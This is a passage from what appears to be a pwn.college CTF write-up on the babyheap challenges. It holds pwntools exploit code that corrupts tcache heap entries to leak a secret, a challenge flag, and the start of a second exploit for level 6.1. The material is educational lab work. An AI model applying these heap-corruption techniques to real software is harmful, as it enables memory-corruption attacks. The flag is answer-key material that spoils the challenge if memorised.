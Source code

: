 ```python
    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret = target.recvline().strip().decode("ascii")
    send_flag(secret)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{wLCxyleFYPCBwUq2LzFkqEM8qzv.0VM4MDL5cTNxgzW}`]

# Level 6.1

## Information

- Category: Pwn

## Description

> Corrupt the TCACHE entry_struct to read unintended memory.

## Write-up

参见 [Level 6.0](#level-60)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    p32,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level6.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


```